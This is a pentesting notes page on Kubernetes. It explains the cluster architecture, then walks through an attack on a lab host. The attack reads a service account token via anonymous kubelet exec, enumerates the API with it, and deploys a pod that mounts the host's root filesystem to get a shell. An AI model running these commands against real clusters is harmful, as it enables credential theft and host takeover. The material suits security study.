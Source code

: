 ```yaml
---
icon: dharmachakra
description: Container Orchestration Platform
---
```


# Kubernetes

{% hint style="info" %}
### <mark style="color:purple;">Architecture</mark>&#x20;

### <mark style="color:purple;">**Kubernetes Control Plane**</mark>

<mark style="color:purple;">The brain of the Kubernetes cluster. It makes global decisions about the cluster and monitors the state of the cluster.</mark>

* <mark style="color:orange;">**`kube-apiserver`**</mark>
  * <mark style="color:purple;">Is the central point of communication for all Kubernetes components.</mark>
  * <mark style="color:purple;">It exposes the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**Kubernetes API**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and serves as the front-end for the Kubernetes control plane.</mark>
  * <mark style="color:purple;">All interaction go through the API server.</mark>
  * <mark style="color:purple;">It handles requests for cluster state and writes/read operations to/from</mark> <mark style="color:orange;">**`etcd`**</mark><mark style="color:purple;">.</mark>
  * <mark style="color:purple;">Handles</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**authentication, authorization, and admission control**</mark><mark style="color:purple;">.</mark>
* <mark style="color:orange;">**`etcd`**</mark>
  * <mark style="color:purple;">**I**</mark><mark style="color:purple;">s a distributed key-value store used to store all cluster data and state:</mark>
    * <mark style="color:purple;">Configuration of all resources.</mark>
    * <mark style="color:purple;">The</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**desired state**</mark><mark style="color:purple;">.</mark>
    * <mark style="color:purple;">The</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**current state**</mark><mark style="color:purple;">.</mark>
  * <mark style="color:orange;">**`etcd`**</mark> <mark style="color:purple;">ensures that the state is replicated across multiple nodes.</mark>
* <mark style="color:orange;">**`kube-controller-manager`**</mark>
  * <mark style="color:purple;">Is a daemon that runs in the control plane and manages the controllers that regulate the state of the cluster.</mark>
  * <mark style="color:orange;">**`Controllers`**</mark> <mark style="color:purple;">are responsible for ensuring the desired state of the cluster matches the current state. If there’s a mismatch, controllers take action to reconcile that state:</mark>
    * <mark style="color:purple;">For example, if a pod crashes, the</mark> <mark style="color:orange;">**`replication controller`**</mark> <mark style="color:purple;">will create a new pod to maintain the desired number of replicas.</mark>
  * <mark style="color:purple;">Some key controllers include:</mark>
    * <mark style="color:orange;">**`Deployment controller`**</mark><mark style="color:purple;">: Ensures the desired number of pod replicas are running.</mark>
    * <mark style="color:orange;">**`Node controller`**</mark><mark style="color:purple;">: Monitors nodes for health and takes actions when nodes fail.</mark>
    * <mark style="color:orange;">**`Job controller`**</mark><mark style="color:purple;">: Manages the execution of batch jobs.</mark>
* <mark style="color:orange;">**`kube-scheduler`**</mark>
  * <mark style="color:purple;">Is responsible for scheduling pods to run on the worker nodes.</mark>
  * <mark style="color:purple;">It watches for newly created pods that do not have a node assigned, and then selects the most appropriate node to run the pod based on resource requirements, node availability, and other constraints.</mark>
* <mark style="color:orange;">**`cloud-controller-manager`**</mark>
  * <mark style="color:purple;">Interacts with the cloud provider’s API to manage resources such as:</mark>
    * <mark style="color:purple;">Managing load balancers.</mark>
    * <mark style="color:purple;">Handling cloud-specific features.</mark>
  * <mark style="color:purple;">It abstracts the cloud provider-specific logic, allowing Kubernetes to be agnostic to the underlying infrastructure.</mark>

### <mark style="color:purple;">**Kubernetes Worker Node**</mark>

<mark style="color:purple;">Worker nodes are the machines (either virtual or physical) that run the actual application workloads. A Kubernetes cluster can have multiple worker nodes, and each one runs several essential components:</mark>

* <mark style="color:orange;">**`Kubelet`**</mark>
  * <mark style="color:purple;">Is an agent that runs on every worker node.</mark>
  * <mark style="color:purple;">It ensures that the containers described in the pod specs are running and healthy.</mark>
  * <mark style="color:purple;">Monitors the state of the node and the pods running on it. It communicates with the API server to report the status of the node and its workloads.</mark>
  * <mark style="color:purple;">If a pod is not running as expected, the</mark> <mark style="color:orange;">**`kubelet`**</mark> <mark style="color:purple;">can restart it.</mark>
* <mark style="color:orange;">**`Kube Proxy`**</mark>
  * <mark style="color:purple;">**I**</mark><mark style="color:purple;">s a network proxy that runs on every worker node.</mark>
  * <mark style="color:purple;">It maintains network rules for pod communication, allowing services in the cluster to be accessed reliably.</mark>
  * <mark style="color:purple;">It manages the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**service abstraction**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">by routing traffic to the correct pods. If a service points to multiple pods,</mark> <mark style="color:orange;">**`kube-proxy`**</mark> <mark style="color:purple;">ensures the traffic is balanced between the pods using round-robin or other strategies.</mark>
* <mark style="color:orange;">**`Container Runtime`**</mark>
  * <mark style="color:purple;">Responsible for running the containers on each node. It interacts directly with the underlying infrastructure (e.g., Docker, containerd, CRI-O).</mark>
  * <mark style="color:purple;">When the</mark> <mark style="color:orange;">**`kubelet`**</mark> <mark style="color:purple;">schedules a pod, the container runtime is used to pull the container images and start the containers.</mark>
* <mark style="color:orange;">**`Pods`**</mark>
  * <mark style="color:purple;">The smallest and most basic deployable objects in Kubernetes. A pod represents one or more containers running together on the same node.</mark>
  * <mark style="color:purple;">Pods share the same network namespace, which means they can communicate with each other using</mark> <mark style="color:orange;">**`localhost`**</mark> <mark style="color:purple;">and share storage volumes.</mark>
  * <mark style="color:purple;">Typically, a pod is used to run a single container, but it can also contain multiple containers that work closely together (e.g., a main app container and a helper container like a logging agent).</mark>

***

### <mark style="color:purple;">Ports and Protocols</mark>

* <mark style="color:purple;">Read the documentation for</mark> [<mark style="color:orange;">**`Ports and Protocols`**</mark>](https://kubernetes.io/docs/reference/networking/ports-and-protocols/)
* <mark style="color:orange;">**`Port 8443`**</mark> <mark style="color:purple;">is the default starting port for the</mark> [<mark style="color:orange;">**`API server in minikube`**</mark>](https://minikube.sigs.k8s.io/docs/commands/start/)
* <mark style="color:purple;">The</mark> <mark style="color:orange;">**`kubelet`**</mark> <mark style="color:purple;">agent listens on</mark> <mark style="color:orange;">**`Port 10250`**</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Enumeration</mark>

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`Kubeletctl`**</mark>](https://github.com/cyberark/kubeletctl) <mark style="color:purple;">to list</mark> <mark style="color:orange;">**`Pods`**</mark><mark style="color:purple;">**:**</mark>

```sh
kubeletctl pods -s 10.10.11.133
```

* <mark style="color:purple;">The</mark> <mark style="color:orange;">**`runningpods`**</mark> <mark style="color:purple;">command gives a bunch of JSON about the running pods:</mark>

{% code overflow="wrap" %}
```sh
kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
```
{% endcode %}

* <mark style="color:orange;">**`Kubelet`**</mark> <mark style="color:purple;">can allow anonymous access, where one may use the commands such as</mark> <mark style="color:orange;">**`run`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`exec`**</mark><mark style="color:purple;">:</mark>

```bash
kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
```

* &#x20;<mark style="color:purple;">Default directories where</mark> <mark style="color:orange;">**`token`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`certificate`**</mark> <mark style="color:purple;">are stored:</mark>
  * <mark style="color:red;">**`/var/run/secrets/kubernetes.io/serviceaccount`**</mark>
  * <mark style="color:red;">**`/run/secrets/kubernetes.io/serviceaccount`**</mark>
  * <mark style="color:red;">**`/secrets/kubernetes.io/serviceaccout`**</mark>

### <mark style="color:orange;">`kubectl`</mark>

* <mark style="color:purple;">Authorize to the</mark> <mark style="color:orange;">**`API`**</mark> <mark style="color:purple;">using the</mark> <mark style="color:orange;">**`token`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`ca.crt`**</mark> <mark style="color:purple;">to be able to use it; first save the</mark> <mark style="color:orange;">**`token`**</mark> <mark style="color:purple;">in a local variable to make it easier to work with:</mark>&#x20;

{% code overflow="wrap" %}
```sh
export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
```
{% endcode %}

* <mark style="color:purple;">Copy the</mark> <mark style="color:orange;">**`ca.crt`**</mark> <mark style="color:purple;">in a file locally and start enumerating:</mark>

{% code title="Print info about the running pod" overflow="wrap" %}
```sh
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod
```
{% endcode %}

{% code title="List namespaces" overflow="wrap" %}
```sh
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get namespaces
```
{% endcode %}

{% code title="List resource services" overflow="wrap" %}
```sh
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token cluster-info
```
{% endcode %}

{% code title="List all permissions" overflow="wrap" %}
```sh
kubectl auth can-i --list --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```
{% endcode %}
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">Exploitation</mark>

### <mark style="color:purple;">**Create a malicious**</mark>**&#x20;**<mark style="color:orange;">**`Pod`**</mark>

* <mark style="color:purple;">Grab the details of the vulnerable container:</mark>

{% code overflow="wrap" %}
```sh
kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token                   
```
{% endcode %}

* <mark style="color:purple;">The key parameters needed from the file are the</mark> <mark style="color:orange;">**`namespace`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`image`**</mark><mark style="color:purple;">,</mark> <mark style="color:purple;">add those to this template:</mark>

{% code overflow="wrap" %}
```yaml
apiVersion: v1 
kind: Pod
metadata:
  name: tokyo-pod
  namespace: CHANGE ME
spec:
  containers:
  - name: tokyo-pod
    image: CHANGE ME
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
{% endcode %}

* <mark style="color:purple;">Now start the</mark> <mark style="color:orange;">**`pod`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```sh
kubectl apply -f evil-pod.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```
{% endcode %}

* <mark style="color:purple;">And get a reverse shell back:</mark>

{% code overflow="wrap" %}
```sh
kubeletctl -s 10.10.11.133 exec "/bin/bash" -p tokyo-pod -c tokyo-pod
```
{% endcode %}
{% endhint %}
